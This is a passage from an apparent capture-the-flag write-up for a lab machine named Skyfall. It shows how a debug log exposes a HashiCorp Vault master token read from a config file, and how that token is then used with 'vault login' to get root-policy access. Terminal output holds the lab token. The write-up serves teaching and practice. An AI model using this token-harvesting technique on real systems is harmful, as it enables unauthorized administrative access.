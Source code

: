 

It created `debug.log`, but because of where it's stored, it's owned by
askyy:



    askyy@skyfall:/dev/shm/out$ ls -l
    total 4
    -rw------- 1 askyy askyy 590 Aug 27 18:34 debug.log



### Admin Vault

#### debug.log

The `debug.log` file leads the token being used with it:



    askyy@skyfall:/dev/shm/out$ cat debug.log 
    2024/08/27 18:34:49 Initializing logger...
    2024/08/27 18:34:49 Reading: /etc/vault-unseal.yaml
    2024/08/27 18:34:49 Security Risk!
    2024/08/27 18:34:49 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
    2024/08/27 18:34:49 Found Vault node: http://prd23-vault-internal.skyfall.htb
    2024/08/27 18:34:49 Check interval: 5s
    2024/08/27 18:34:49 Max checks: 5
    2024/08/27 18:34:49 Establishing connection to Vault...
    2024/08/27 18:34:49 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
    2024/08/27 18:34:49 Checking seal status
    2024/08/27 18:34:49 Vault sealed: false



#### Login

This token works via the `vault login` command:



    oxdf@hacky$ vault login
    Token (will be hidden): 
    Success! You are now authenticated. The token information displayed below
    is already stored in the token helper. You do NOT need to run "vault login"
    again. Future Vault requests will automatically use this token.
                                                   
    Key                  Value                                                                    
    ---                  -----  
    token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG                
    token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu                                                 
    token_duration       ∞                         
    token_renewable      false
    token_policies       ["root"]               
    identity_policies    []       
    policies             ["root"]


